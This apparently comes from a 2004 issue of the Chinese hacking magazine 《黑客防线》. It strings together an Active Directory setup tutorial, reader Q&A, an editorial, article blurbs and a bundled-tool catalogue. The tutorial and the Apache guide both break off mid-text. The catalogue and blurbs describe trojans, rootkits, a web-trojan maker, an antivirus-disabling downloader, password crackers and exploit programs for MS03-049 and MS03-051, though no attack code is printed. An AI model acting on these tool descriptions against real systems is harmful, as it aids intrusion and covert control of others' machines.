1. **发行给用户**：当某个软件分发给用户以后，下一次用户以任何一台计算机登录域时，该软件都会自动出现在“添加/删除程序”控制面板栏中，以供其下载安装。此时并没有修改计算机的设置，也没有在“开始程序”菜单或桌面上创建快捷方式。只有当用户从控制面板的“添加/删除程序”对话框中安装该软件，或者打开了该软件所关联的文件后，软件才会自动下载安装到计算机上。
2. **指派给用户**：指派是比发行更具有强制性的部署方式。当软件指派给用户的时候，下一次用户以任意一台机器登录域时，都可以在“开始程序”菜单或桌面上看到软件的快捷方式，同时计算机中也会注册了该软件的一些相关信息，如关联的文件等。用户点击快捷方式或第一次打开相关联的文件，计算机就会自动下载安装该软件。注意，用户对指派的软件没有选择权。
3. **指派给计算机**：当软件指派给计算机后，计算机在下一次启动时，会自动下载安装该软件。注意，这时软件是完整地安装到计算机上的，并非是通告而已。除了拥有管理员权限的用户之外，其他人都不允许删除该软件。

下面用一个表格来示例不同部署方法之间的差别：

| 项目 | 发行给用户 | 指派给用户 | 指派给计算机 |
| :--- | :--- | :--- | :--- |
| 生效时间 | 下一次登录域 | 下一次登录域 | 下一次启动 |
| 完整的软件触发时机 | 用户从控制面板中“添加/删除程序”安装 | 第一次点击快捷方式使用时 | 计算机已经自动安装好软件 |
| 是否出现程序快捷方式 | 否 | 是 | 是 |
| 何种身份可删除软件 | 发行的对象 | 指派的对象 | 系统管理员 |

### 组策略刷新

当计算机启动时，针对计算机的策略设置生效，启动脚本运行；当用户登录时，针对用户的策略设置生效，登录脚本运行。默认情况下，每隔 5 分钟，域控制器都要刷新一次组策略。独立服务器和成员服务器每隔 90 分钟刷新一次组策略，其中会带有 0～30 分钟的偏移量。当然，我们也可以采用手动刷新。

紧急刷新命令格式如下：

```cmd
secedit /refreshpolicy {machine-policy|user-policy} [/enforce]
```

各个参数解释如下：
- `machine-policy`：刷新计算机的组策略。
- `user-policy`：刷新当前登录到计算机的本地用户的安全性设置。
- `/enforce`：即使系统没有更新“组策略”对象设置，也要刷新安全性设置。

写到这里，笔者仍然感觉要写的东西还有很多，这里有很多东西很少在谈组策略的书上看到，这也是笔者在以往的教学和工作过程中总结的。如果你想学好组策略的软件分发，建议结合本文的经验性总结与相关书籍全面学习。

**后记：**本文的实践性很强，实际操作是必不可少的。读者如果对组策略中其他策略（如账户策略等）不太熟悉，可以查阅黑防等相关专业教材。

---

刘流：活动目录作为一项非常重要的功能出现在 Windows 2000 操作系统中了，已经广泛为专业人士所认同。我们也经常在网络或杂志上看到一些讨论活动目录的文章，但似乎总是觉得不够过瘾，原因就是鲜有真正实际的操作过程讲解。本文就是出于解决这个问题的角度，结合笔者的实际经验，手把手地教你在企业网络中构建一个活动目录系统。

- **难度等级：** 中
- **前置知识：** 活动目录、域相关知识

## 企业网络中域级模型的构建和实现方法

文／单长虹

### 基本概念

在 Windows 9x 年代，网络资源并没有要求用户在访问时提供有效的身份验证，安全性让人担忧。Windows 2000 中推出了新的服务——活动目录。活动目录中所有的资源都经过了加密处理，身份验证机制大大增强。用户在访问域之前首先要登录到域，取得访问令牌。下面先来熟悉几个基本概念。

1. **活动目录**：当多台计算机处于同一个网络之中，采用活动目录对其共享出来的资源进行统一管理。
2. **名字空间**：本质上讲，活动目录就是一个名字空间。名字解析就是将一个名字解析成它所对应的对象或者信息。
3. **对象**：是活动目录的信息实体，是一组属性的集合，代表了有形的实体，如用户、文件等。
4. **容器**：是活动目录名字空间的一部分，用来包容其他目录对象或容器。
5. **域**：是活动目录的核心单元。在域中，由域控制器（Domain Controller，简称 DC）充当域信息的维护者。活动目录由一个或多个域组成。当多个域通过信任关系连接起来之后，所有的域将共享公共的表结构（Schema）、配置和全局目录（Global Catalog，简称 GC），从而形成域树，多个域树连接在一起形成域林。
6. **域树**：由多个域组成，这些域共享同一个表结构和配置。域树中的域按照父子关系形成层次结构。域树中的第一个域称为根域。域树中的域是通过双向可传递的信任关系连接在一起的。在 Windows 2000 中，信任关系是基于 Kerberos 的安全协议。
7. **域林**：由多个域树构成。域林中的域树不必形成邻接的名字空间。域林中创建的第一个域是域林的根域，所有域树的根域可建立可传递的信任关系。

域树和域林的组合使用为用户提供了灵活的域命名规则，构成了连续和非连续的 DNS 名称空间。

### 实战方案

安装活动目录的准备工作及要求如下：

1. 必须是一台安装了 Server、Advanced Server 或 Datacenter Server 的计算机。
2. 硬盘上至少要有 200M 的空闲空间存放数据库，50M 存放日志文件。
3. 必须存在 NTFS 5.0 的分区（Sysvol 目录必须存放在 NTFS 5.0 分区上）。如果硬盘是 FAT 格式，可使用命令 `convert D: /FS:NTFS` 进行转换。
4. 安装了 TCP/IP 协议栈，并配置了 DNS 服务，确保能访问到 DNS 服务器。
5. 当所要提升的域控制器不是网络中的第一台域控制器时，需要相应的权限。
6. 如果安装多台域控制器，需要设置统一的时钟。因为 Kerberos 验证协议对数据包有 5 分钟的时间限制。

下面我将以一个森林模型作为案例，手把手教你配置。如果你的计算机处于 Intranet 中，首先要配置一台 DNS 服务器：

1. 打开 DNS 服务，在“正向搜索区域”上点击右键，新建区域，输入 DNS 名称 A.com。
2. 在 A.com 上点击右键，选择“属性”，在“常规”页中的“允许动态更新？”中选择“是”，并再次点击右键选择“刷新”。

条件的话。否则，可以只用两台计算机重复做。不过这样就麻烦多了，你可能要在提升完域控制器之后又要马上卸载它），这里，为了叙述方便，我将它们依次编号为 1、2、3、4、5。下面我将按照编号的顺序依次来做这个复杂而又非常有趣的实验。

## 1号机器的配置方法

我将指定它为森林的根域控制器，域名称为 A.com。首先大家要将“开始”菜单打开，然后选择“运行”，在输入框中输入 DCPROMO 的命令，这个命令将会帮助我们弹出“活动目录安装向导”的欢迎界面，下面的所有工作都将在这个向导中进行。

- 1. “域控制器类型”向导页面，我们选择“创建新域的域控制器”，这样，此服务器将成为 A.com 域中的第一台域控制器。
- 2. “创建目录树或子域”向导页面，现在我们要创建新的域目录树和新的域林，当然要选择“创建新的域目录树”。
- 3. “创建或加入目录林”向导页面。如果你要创建的是你单位的第一个域，或你希望所创建的新域独立于你的现有目录林，则选择“创建新的域目录林”，这里，我们显然要选择它。如果你想要使新的域目录树中的用户访问现有域目录树的资源，或想要使现有域目录树的用户访问新的域目录树的资源，则选择“将这个新的域目录树加入到现有的域目录林中”。
- 4. “新的域名”向导页面，在这里我们要输入新域的 DNS 全名。若你的单位已有一个在 Internet 命名颁发机构注册的 DNS 域名，则可直接填入；如你只是处于 Intranet 上，则可选用一个你喜欢的并且已经在我们前面所提到的 DNS 服务器上建成并已经设置为动态更新的区域名称，这里，显然我们应该输入 A.com。
- 5. “NetBIOS 域名”向导页面，在这里将要求你输入域的 NetBIOS 名。因为 NetBIOS 命名能够实现协议的无关性，并且为了向前兼容，Windows 2000 仍然支持 NetBIOS 名字，即默认时总是取 DNS 名称的第一个点号前面的部分，当然你也可以不用这个默认的名字，而填入一个自己喜欢的名称替代它，但是你千万不要忘记它，因为其他的计算机若想加入到域中，必须要提供有效的 NetBIOS 域名。这里，我们选择默认的名称 A，选择“下一步”继续。
- 6. “数据库和日志文件位置”向导页面，这里要求你填入你认为合适的存放路径，我们可以使用默认的路径。
- 7. “共享的系统卷”向导页面，这里将要求你指定 Sysvol 文件夹的存放位置。Sysvol 文件夹存放域的公共文件的服务器副本。Sysvol 文件夹的内容被复制到域中的所有域控制器上，它必须存放于 NTFS 5.0 卷上。选择你的一个 NTFS 5.0 的卷。
- 8. “权限”向导页面，在这里要求你为用户和组对象选择默认权限。若在此域中存在 Windows 2000 以前版本的操作系统，则要选择“与 Windows 2000 服务器之前版本相兼容的权限”；否则，选择“只与 Windows 2000 服务器相兼容的权限”。
- 9. “目录恢复模式的管理员密码”向导页面，这个密码用来在“目录服务恢复模式”下启动计算机时使用，千万不要忘记，否则将无法进行目录恢复。
- 10. “摘要”向导页面，将对你以上的选择进行汇总，确认之后选择“下一步”继续。

现在，你将看到正在安装活动目录的界面。这将花费很长的一段时间，当然要取决于你的电脑的 CPU、内存等指标。这个过程中，我们将从提示中看到，系统将对一些重要的数据进行加密处理，这有利于保密工作，使得域外部的用户未经授权无法访问域中的资源，极大地增加了它的安全性，无怪乎人们将域称为“安全的堡垒”，从它的表示图形我们也可以看出，我们是使用金字塔的图标来形象地表示它，显示了我们对它的信任程度之高。在实际的教学和实践工作中，人们也发现域确实是一个好东西，不信的话你可以动手一试。

## 2号机器的配置方法

“千里之行，始于足下”，万里长征已经迈出了第一步，下面的第二步就更不在话下了。下面我将把 2 号计算机配置为域 A.com 的额外域控制器，方法如下：

- 1. 在向导的第一步中选择“现有域的额外域控制器”，选择“下一步”继续。
- 2. 在“网络凭据”向导页面中，输入管理现有域中域控制器的管理员的用户名和密码，并将希望加入到的域的 NetBIOS 名字输入“域”栏的空白处，这里我们填入 1 号计算机上的域管理员的用户名和密码，并在“域”处填入 A，选择“下一步”继续。
- 3. 如果出现 A 域的欢迎加入信息，表示成功加入，下面的操作依次按向导执行即可，在此省略。

## 3号机器的配置方法

下面我将在 3 号计算机上创建 A.com 的一个子域 a1.A.com，方法如下：

- 1. 在向导的第一步中选择“新域的域控制器”。
- 2. 在接下来的“创建目录树或子域”的向导页面中，选择“在现有域目录林中创建一个新的子域”。
- 3. 在接下来的“网络凭据”向导页中，输入父域的域 NetBIOS 名为 A，还要输入父域的域管理员的用户名和密码，也是 1 号计算机上的域管理员的用户名和密码。
- 4. 如果出现 A 域的欢迎加入信息，表示成功加入，下面的操作依次按向导执行即可，在此省略。

## 4号机器的配置方法

下面我将使用 4 号计算机，创建一个新的域目录树 B.net，并将它加入到现有的域目录林 A.com 中，方法如下：

- 1. 在向导的第一步中选择“新域的域控制器”。
- 2. 在接下来的“创建目录树或子域”向导页面中，选择“创建一个新的域目录树”。
- 3. “创建或加入目录林”向导页面中，选择“将这个域的目录树加入到现有的目录林中”。
- 4. 在“网络凭据”向导页面中，输入希望加入的域林的根域的域 NetBIOS 名字，这里填入 A，并且输入具有森林管理员权限的用户名和密码，我们填入 1 号计算机上的域管理员的用户名和密码即可。
- 5. 如果出现 A.com 森林的欢迎加入信息，表示成功加入，下面的操作依次按向导执行即可，只需要注意的是，当提示输入“新的域名”时，填入 B.net 即可。

## 5号机器的配置方法

将 5 号计算机加入到域 B.net 中，这里需要多加说明的一点是，如果 5 号计算机安装的是 Windows 2000 的 Professional，则它将作为域的客户端（Client）出现，如果 5 号计算机安装的是 Server 以上的版本，则它将作为域的成员服务器（Member Server）出现。方法如下：

- 1. 在“我的电脑”图标上点击鼠标右键，选择“属性”，在属性页中选择“网络标识”页，再选择“属性”按钮，在“更改标识”页中的单选框“隶属于”中选择“域”，在其中填入希望加入到的域的 NetBIOS 名字，此处我们要填入 B。
- 2. 在弹出的对话框中输入 B.net 域的域管理员的用户名和密码，也就是 4 号计算机上的域管理员的用户名和密码。选择“确定”继续。
- 3. 如果出现 B.net 域的欢迎加入信息，表示成功加入。

通过对上面这样一些关键的计算机的操作，你应该可以将这个森林模型中其他需要补充的地方结合自己的理解一一加入进来，我就不再重复了。

下面的工作中我将和大家一起来探讨如何将活动目录卸载，方法如下：

（下转第37页）

---

新年的《黑客防线》相信给大家带来了新的思维冲击，安全技术在新的一年里也必定会有更好的发展。如何才能在快速发展的安全领域中把握住技术发展的脉搏？这是我们恒久的话题！坚信在新一年中的《黑客防线》一定能让大家掌握最新技术发展趋势，全面提升安全技能！

### 本月网络安全状态
当前网络威胁为普通状态，没有显著的网络攻击事件，只存在零星的攻击。网络大多数情况下都处在这一状态，此时保持普通安全策略即可。

**山东 榴：** 我对防火墙不是太了解，请老编给我推荐一下，主要用于 Win2000 Server SP4 系统的 Web 服务器，只想尽可能的保证数据安全。请问，在这种需求下，使用什么样的软件防火墙效果会比较好呢？还有，这样一个 Web 服务器，要想安全，除了打补丁和装防火墙外，还需要怎么样设置？

**Wtf：** 如果你要使用防火墙，一定要明确你的目的是什么？是为了达到目的不考虑投入，还是不想投入太多，只想实现一些基本的防护功能？如果不考虑投入的话，软件防火墙 CHECKPOINT 是不错的选择；如果功能要求的不是很多，就可以选一些国内的产品。

Web 服务器的安全并不是单单一个防火墙就能保障的，就算你有一个功能强大的防火墙，但是服务器配置太差的话，相信一样是徒劳的！反过来说，服务器的安全维护和配置也不是几句话能说清楚的，请记住：安全是个很广的整体范围！并不是说做了几个事就能达到完全的安全！要使服务器尽可能的安全，最好的办法是跟踪业界内最新的安全咨询，掌握了最新的攻击方法后才能知道怎么来防御这样的攻击，这样才能做到相对的安全！

**河北 一行：** 我是《黑客防线》的忠实读者，一直比较喜欢黑防编程的板块，有个疑问问了很久了，想问下 socket，NMAP 中是如何检测一个端口是否处于过滤状态的？

**Socket：** nmap 是根据服务端的回应来判断的。比如，该主机存活，你扫描一个端口，该端口关闭，则主机返回 RST + 其他标志包；该主机存活，端口开放，则返回 syn+ack；该主机存活，端口开放，有 FIREWALL 过滤此端口，无任何响应；该主机存活，端口关闭，有 FIREWALL 过滤此端口，返回 RST。这只是举了一个例子，具体情况还与操作系统、防火墙类型有关。如需详细资料，可以看看 NMAP 的代码，何况还有很多文档，国内很多 IDS 都是使用的 NMAP 的指纹库。

**北京 梦月：** 我们想用 PktFilter 作为我们的防火墙，但是对这个防火墙的了解比较少，而且对它的全局选项不太清楚，能简单介绍一下吗？

**刘流：** PktFilter 是一个运行在 Windows 2000/XP/2003 上的包过滤防火墙。这个防火墙系统资源占用比较少，属于 UNIX 风格，没有图形界面。它和 IP Filter 一样，这个防火墙不是为对安全一无所知或者略有所知的人设计的，要打算使用它请确定你了解 TCP/IP 协议等基础知识。

- `small_frags`：拒绝太小的分片包，默认 `small_frags` 是指小于 16 bytes 的分片包。这个值可以通过建立注册表 `HKLM\SYSTEM\CurrentControlSet\Services\IpFilterDriver\FragmentThreshold` 来设定。
- `strong_host`：MSDN 的解释是 “Causes a check of the destination address of incoming packets.”
- `check_frags`：MSDN 的解释是 “Causes a check of the fragments from the cache.”

具体使用情况还要看你对防火墙的熟悉程度和对网络的理解，建议先熟悉一下网络协议方面知识。

## 攻与防的对立统一中寻求突破

又一个冬天到来，又一个花开花谢，又一个冰雪连天……

在过去的 2003 年里，热心读者的支持、在线编辑的努力、全体工作人员的辛勤劳动，这一切的一切都给《黑客防线》注入了无限动力！我们可以骄傲的说：2003 年是《黑客防线》成功的一年！在这一年里，我们努力地传播最新攻防技能、掌握业界发展方向、引领安全技术潮流，收到了非常好的效果。越来越多的人开始关注网络安全这一全新的领域，爱好网络安全技术的朋友也通过我们的杂志学到了很多实用的攻击、防御技能，希望大家都能掌握过硬技术而在时代潮流中屹立不倒！

崭新的 2004 年来到了，在新的一年里，《黑客防线》为了更好的给大家提供最实用的网络安全技术，从哲学的高度考虑了网络安全技术的纵深发展，将技术的发展、科技的进步融为一体，提出“在攻与防的对立统一中寻求突破”这一整体理念，我们的目的很简单：任何最新的攻击都能用适当的方法防御，任何经典的防范措施都能找到漏洞攻击！从而不断的在这对矛盾中找寻突破点，才能使整体安全技术水平不断进步！

在新的 2004 年，《黑客防线》注入了很多新鲜血液，来自各个安全领域的技术生力军汇集于此，把自己掌握的最先进的技术奉献给读者！有新编辑的加入，我们深信在新的 2004 年里，《黑客防线》将能更好的为大家服务，给大家提供最新业界资讯、最新攻防方法、最新实用技能！

同时，新的 2004 年也是我们攻防实验室走向成熟的一年。攻防实验室是国内首创的比较完善的合法攻击平台，到现在已经成功运行两轮了。我们希望大家在《黑客防线》上学到最新的攻击技能的同时，不单单只是停留在纸上谈兵的地步，还能到我们的攻防实验平台上进行实际的演练，从而真正掌握实用技术！这样的实验室才是我们需要的，也才真正能体现“攻防对立统一”的关系！

在新的 2004 年里，黑防论坛也将为大家提供更好的服务，从刊物邮购、技术支持到选题策划、光盘点播，我们的新编辑都将在论坛上和大家做直接的交流，让我们一起将注册人数逾 80000 人的论坛真正建设成《黑客防线》聆听外界的声音！

在新的 2004 年，我们要做的很多：杂志整体理念的推广、新编辑的全面投入、攻防实验室的进一步完善、黑防论坛的整体进步……这些方面都需要读者朋友和我们一起策划，一起维护，一起发展。希望新的 2004 年是杂志读者和《黑客防线》共同进步的一年，也是大家飞速提升攻防技术的一年！

> 雪花飞扬，冬寒无边，温暖的《黑客防线》编辑部突然响起谁的话语：
> 冬天到了，春天，还会远吗？！

## 特别专题

- 知己知彼，方能百战不殆
- —— Apache 安全设定面面观 ................. 6

## 漏洞攻击

- Windows Workstation 服务远程溢出漏洞分析 .......... 18

Windows 素以漏洞较多著称，最近微软的 Windows 2000 和 XP 操作系统中就又发现了新的安全漏洞（MS03-049），即这两个操作系统中的 Workstation Service（工作站服务）中存在缓冲溢出的漏洞。这种漏洞可让黑客进行远程攻击，并最终让系统不能正常工作。本文就针对此漏洞的利用进行了详细讨论，并在防范中针对该漏洞给出了详细的解决方法。OK，还是先让我们来看看如何针对这个漏洞进行攻击吧！

- 从 OWA、XSS 攻击到微软用户域信任密码的破解 .......... 22
- Workstation Service 远程溢出漏洞攻击实战 .......... 24
- FrontPage 扩展服务远程溢出漏洞攻防实战 .......... 26

2003 年 11 月份，Microsoft 发布了 MS03-051 安全公告，其中就提到了 Microsoft FrontPage Server Extensions 远程缓冲区溢出漏洞存在两个新的安全漏洞，可导致远程攻击者可以利用这个漏洞进行缓冲区溢出攻击，可能以 FrontPage 进程权限在系统上执行任意指令。而本文就是讲述 MS03-051 的相关内容。

## 脚本攻击

- 基于 WAP 的 QQ 消息洪水攻击 .......... 28

平时我们碰到过的 QQ 攻击软件中，大多都通过利用 QQ 客户端来达到目的。而目前腾讯的 WAP 服务已经开通，手机和 QQ 之间开始可以互通消息，这样大家“随时随地可以让您的手机 Q 起来”。不过与此同时，这也给我们提供了一种新的攻击方法，也算是它的一大漏洞吧！那么到底是什么样的漏洞呢？又该怎么利用呢？

- 盗帅下载系统 2.0 正式版存在多个跨站漏洞 .......... 30
- MSSQL 跨库查询你想怎么玩？ .......... 32

## 黑兵器库

- 紧急应变 WinHider .......... 35
- 命令行下将肉鸡做成服务器 .......... 37

定价：23.8 元

在本书中，可以看到各种有关网络安全方面的工具代码和代码注释（主要代码一并收录在本书的配套光盘中）。网络上流传的黑客工具很多，但你有没有想过尝试开发自己的黑客工具呢？也许有些朋友会觉得这对于自己来说太过于高深了，但只要看了本书后，你就会明白黑客工具是怎样写出来的。

书中介绍了运用多种开发语言，如 Visual Basic、Visual C++ 等工具来开发，书中的代码部分完全是流行的工具代码；并且都有中文注释，很容易就可以看明白。

书中列举了几位国内著名 Hacker 的代码，并且加上说明提要。在本书的配套光盘中，不仅概括了一书中的代码，还收录了其他一些黑客工具代码和相关工具代码以及一些黑客工具等等。

定价：19.8 元

《黑客防线》2003 年增刊以 8 个栏目涵盖了黑客技术起步、进阶提高在内的 66 篇全新文章，分类很详细，每篇文章都经过精心挑选打造，是编辑部在长期读者调查的基础上，结合读者的喜好，特约作者撰写汇编而成，每个栏目的文章有一定的梯度，最适合想进一步提高黑客技术的读者阅读。

## 目录 CONTENTS

**定价：19.8元**

《黑客攻防 One To One》一书收集了广大上网用户经常遇到的网络安全问题，针对这些问题，编者按照“问题”——“分析”——“防范”的思路，条理清晰地告诉你在网络上如何应对黑客可能进入的入侵与反攻击，并对自己的计算机系统进行最有效的防护，以及如何进行反入侵与攻击。

内容涵盖了从开始接触网络到熟练应对各种网络攻击的大量技巧，可以说是一本了解黑客入侵手段，从而掌握各种防护对策的最佳入门读物。通过介绍黑客可能采取的攻击手段、黑客攻击的思路、各种入侵工具的结合使用，详细分析了黑客攻击的方法和防范对策，从而对黑客攻击有一个充分的认识。

学习本书不需要专业的网络知识，适用于广大希望增强网络安全意识的网络爱好者阅读。

本书光盘收集了书中解决问题用到的所有工具，另外，还收集了优化系统、提高防范措施所用到的大量共享软件，配合书中解决问题的思路，灵活运用，完全可以做到保证一个系统的安全运行。

- 汇款地址：北京市中关村邮局008信箱
- 邮政编码：100080
- 收款人：《黑客防线》邮购部
- 热线电话：(010)62141446、62141445-8011
- E-mail：yougoubu@hacker.com.cn

## 编程解析

- 黑白对抗中的磁盘操纵技术深入探析 …… 39
- VC也玩清除日志 …… 43
- 轻松实现检测Windows肉鸡系统信息 …… 45

无论是在病毒还是在反病毒技术中，对磁盘的操纵都是一个永恒的话题，这其中包括获取磁盘空间数据、磁盘遍历、文件搜索、文件目录删除等等，很多朋友觉得很神秘，一直有这方面的疑问，本文基于此，和大家一起讨论下这方面的编程，希望能够起到抛砖引玉的作用。

如何收集肉鸡的系统信息？如何量身定做一套适合自己使用习惯的肉鸡信息检测程序？这些都是在入侵中常遇到的问题。怎样才能在最短的时间内搞清楚肉鸡的系统情况？当然是自己写程序！——很难？当然不是！如果告诉你：自己编写查看肉鸡系统信息的程序非常简单，通过几个实用的API就可以实现，你是不是觉得非常难以相信？那好吧，让我们一起DIY一个属于自己的肉鸡系统信息检测工具吧！

## 密界寻踪

- Cracker 初级教程之MD5算法破解 …… 51
- Cracker 兵器谱组合招式之Delphi篇 …… 53
- 加密光盘破解全接触 …… 57

## 新兵训练营

- 终端服务器全攻略 …… 60
- 捕获自己的第一只Linux肉鸡 …… 64
- 教你如何“钓”肉鸡 …… 67

## e生e事

- 我的黑客女友 …… 69

## 攻防实验室

### 编读互动

## 后门控制

- **Tranzhva**：功能不错的远程控制软件，具备远程截屏、文件管理、进程管理、屏幕控制、注册表编辑、窗口管理、Yahoo ID 提取、远程 IE、声音记录、声卡音量控制、实时键盘记录、部分屏幕设置等诸多功能。
- **Superkit**：一个运行在 Linux/UNIX 下非常易于使用的 rootkit，可以用来隐藏文件、进程和连接，并且对远程访问的回连 shell 提供了密码保护。
- **Wintro**：仅适于 XP 系统的 C 盘共享入侵木马，将服务端发送给目标后自动打开对方 C: 盘共享。
- **风雪远程控制**：基于 TCP/IP 协议的远程管理网络工具。该版本主要增加了终止抓屏的功能，同时修改了抓屏时服务端会消耗系统资源的 BUG。
- **20CN 远程控制软件**：客户端连接的反弹方式，由客户端主动连接服务器，通信方式为 HTTP 隧道，可以控制局域网内部的机器。
- **System33r 秘密下载**：能从因特网任何地址下载指定软件或图片并隐藏运行，可以暂时关闭或废止防火墙以及杀毒软件。
- **NT BindShell**：Win32 内核工具。此程序将在第一次启动时自动注册为系统服务，并享有所有权限。
- **超级后门**：可以用来隐藏你建立在肉鸡上面的超级用户，可以巧妙的躲开管理员的查看。
- **EXE2BMP**：可以将一个 .exe 文件生成同名的三个 .BMP、.ASP、.HTM，当别人打开 .HTM 的时候，先前的 .EXE 将被自动下载到他的硬盘并运行，适合用来制作网页木马，支持加密工具加密。
- **F-Secure SSH Client**：一款功能强大的 SSH 远程登录工具包，用来远程管理你的 Unix 和 Windows 主机，可以保证数据传输和密码登录安全可靠。
- **Rewind**：理想的服务器上传木马，压缩后仅 97KB，包括基本的木马功能如门板对话、戏弄被攻击者以及迅速获取主机信息、CD Key，采用 SIN 通知等。
- **Remote-Anything**：能控制使用局域网或互联网上远程的 PC，具有远程文件传送、能实时抓屏、编辑注册表、控制关开机、文本聊天等功能。
- **August10**：功能简单的远程控制软件，端口默认是 1011，运行清除程序后，需要重新启动计算机才能完全清除。
- **Hacker Defender**：内核级后门软件，用户可以通过本软件隐藏文件、进程、系统服务、系统驱动、注册表键的键和值、打开的端口以及虚构可用磁盘空间。

## 加密解密

- **L0phtCrack**：破解的老大级别的工具！居家旅行、攻击入侵必备工具！
- **复制光盘**：可完整复制加密保护光盘的工具。
- **BeatLM**：能从 LM/NTLM 验证信息中搜索出用户密码，可与 ScoopLM 搭配使用。
- **Foxmail 密码破解器**：复制到 Foxmail 安装目录下运行。在唤出 Foxmail 后，双击用户名，然后随便填入密码，按确定后即可得到真正的密码。
- **Venom Windows Binary**：一款利用 WMI 服务通过字典破解 Windows 密码的工具。
- **入口查询**：Dboy 做的一个软件，可以很轻松地找到加壳软件的入口。
- **Apprp**：Adobe Acrobat PDF 文件密码恢复软件，可以帮你恢复 PDF 的加密文件。
- **Viewpassword**：查看 Windows 中以“***”显示的密码窗口中的实际内容。
- **Ntpasswd**：WINNT/2000/XP 登录口令破解器，制作一张软盘就可以用来改变各种用户的口令（包括管理员密码）。
- **网吧解霸 100**：集各种网吧破解软件于一身，可以在线破解几乎所有的各种网吧管理系统的密码，完全免费软件。

## 扫描工具

- **Retina**：目前在 nmap.org 评出来的 2003 年的 top75 网络安全工具中属于商业软件的佼佼者。更新较快，漏洞库齐全，扫描速度较快。
- **LANguard Network Security Scanner**：可以用来检测共享、不必要的端口、特洛伊木马、不牢固口令、使用者和组等，其分析功能极其强大，速度很快。
- **THC-Amap**：运行在 Linux/UNIX 平台上的新一代安全扫描软件，具有完美的 SSL 支持、完整的 RPC 探测等特点。
- **XportScan**：多线程端口安全扫描工具，内包含 Windows/Linux 两版本，附源代码。
- **Shadow Security Scanner**：俄罗斯安全界非常专业的安全漏洞扫描软件，具备安全扫描、口令检查、操作系统检查等强大功能，支持在线升级。
- **ShadowScan**：一款速度快但体积很小的端口扫描工具。
- **superscan 汉化版**：可以自定义端口列表、扫描方式、请求方式等。
- **流光 5**：本年度内重量级扫描器！其他方面就不介绍了，中国顶级扫描器之一，绝对珍藏！
- **Nuclear Scan**：这是一款在极短时间内对 IP 段进行扫描的软件。

## 安全相关

- **Flexbeta Slipstreamer XP**：一个专门针对 XP 系列产品的免费软件，程序可以帮助你将 Windows XP 和 Office XP 的 Service Pack 升级包整合到安装程序中，而且这个程序还可以非常方便地制作 ISO 文件和无人值守的安装文件！
- **进程杀手**：可以对进程进行终止、封锁、删除等操作，能用来对付黑客木马，对以前的版本作了很大的改进，程序体积大大减小。
- **反黑客木马专家**：能智能检测和清除超过 12000 种黑客程序和木马程序。使用多种扫描方式，全面而可靠地检测你的计算机。
- **KFW 傲盾防火墙**：在网络设备硬件和系统之间筑起一道防护堡垒，有黑客攻击和危险数据包攻击的时候进行检查拦截，保护脆弱的 Windows 系统不会崩溃，不会被黑客控制窃取信息。

## 动画教程

- **黑客防线第 8 关通过方法**：kyo、moto 过关方法演示。
- **SQL 注入完全篇**：综合了常见的 SQL 注入方法，对学习脚本的朋友是最好的学习资料！
- **实战 SQL Injection 动画**：比较经典的 SQL Injection 动画演示。
- **入侵流星吧会员管理系统**：轻松入侵流星吧会员管理系统。
- **CTB 论坛入侵演示**：漂亮但不安全的 CTB 论坛入侵演示。
- **远程盗 QQ 动画演示**：比较好的远程盗 QQ 动画演示。
- **简单蜜罐的反击图文教学**：针对蜜罐系统的反击！

## 杀毒相关

- **Web soft 防护盾**：软件通过控制底层 TCP/IP 通讯数据，可以在一台计算机上管理整个网络的 Web 访问，具有较强的可用性。
- **Netbox**：能够代码压缩的工具。
- **fp30**：Microsoft FrontPage 扩展服务远程溢出漏洞攻击程序。
- **Wks**：Windows Workstation Service 远程溢出漏洞攻击程序。
- **3389**：和终端服务相关的一系列工具和动画！非常适合新手学习！
- **Cracker**：组合工具破解普通程序的工具集，非常适合新手使用！

刘流：2004 年是崭新的一年，在微软漏洞层出不穷的今天，如何架构一个安全的服务器，这将是新一年最时髦的话题。同时，我们的合法攻击平台“攻防实验室”也顺利开展两轮了，考虑到要为大家提供一个接近真实的入侵平台，我们策划在近几轮实验室中用 Apache 构建一个 Web 服务器，让大家尽可能地熟悉更多常见系统，拓宽自己的知识面。

当然，知己知彼，方能百战不殆，所以这次我们将 Apache 服务器的安全设定作为专题文章奉献给大家，虽然讲的是防护，但不了解防护你将永远不能提升自己的攻击技术！希望大家能真正领会“攻防对立统一”的辩证关系，在这对矛盾中找到突破口！

## 方能百战不殆 —— Apache 安全设置面面观

文／老牛

Apache 是根据 NCSA 服务器发展而来，NCSA 是最早出现的 Web 服务器程序之一，由伊利诺斯大学 Urbana—Champaign 分校的美国国家超级计算应用中心开发。在 Apache 的发展初期主要是一个基于 UNIX 系统的服务器，它的宗旨就是建立一个基于 UNIX 系统的功能更强、效率更高并且速度更快的 WWW 服务器，这就决定了它是从其他的服务器演变而来的并且添加了大量补丁来增强它在某一方面性能的 Web 服务器，所以被名为“APAtCHy Server（一个补丁组成的服务器）”。发展到今天，Apache 已经被移植到很多平台上，大概有 60% 的服务器都是采用 Apache，由此可见 Apache 的优势。为了帮助大家更好地入侵，我们就一起来看如何配置一个常见的 Apache 服务器，希望能给大家的安全技术学习带来帮助！

### Apache 的安装

这里我们以 Linux 为例：Apache 会随 Linux 系统一起安装，如果安装的时候选了 Web Server 组件，系统中就有了 Apache。用户所做的工作，就是配置 Apache 使它满足自己的需要。

#### 1. 检查系统是否存在 Apache 及版本
用户可以执行下面的指令来检查系统是否存在 Apache 及其版本：
```bash
# rpm -qa|grep apache
```
如果存在 Apache 则会返回类似下面的字样：
```text
apache-1.3.19-5
apache-0.7.2
```

#### 2. 不带 SSL 的 Apache 的安装
用户也可以下载 apache_1.2.4.rpm 软件安装包，然后以 root 身份使用 `rpm -ivh apache_1.2.4.rpm` 命令安装。或者通过源码编译安装：
```bash
# cd apache_1.3.9
# ./configure --prefix=/usr/local/httpd --activate-module=src/modules/php4/libphp4.a
# make
# make install
```

#### 3. 带 SSL 的 Apache 的安装
要给 Apache 加上 SSL，必须另外准备 3 个文件：mm-1.0.11.tar.gz、openssl-0.9.4.tar.gz 和 mod_ssl-2.4.5-1.3.9.tar.gz。文件 mod_ssl 的版本必须与要安装的 Apache 的版本一致。

先安装 OpenSSL：
```bash
# cd openssl-0.9.4
# sh config -fPIC
# make
# cd ..
```

接下来安装 MM：
```bash
# cd mm-1.0.11
# ./configure --disable-shared
# make
# cd ..
```

然后安装 mod_ssl：
```bash
# cd mod_ssl-2.4.5-1.3.9
# ./configure --with-apache=../apache-1.3.9
# cd ..
```

最后安装 Apache：
```bash
# cd apache-1.3.9
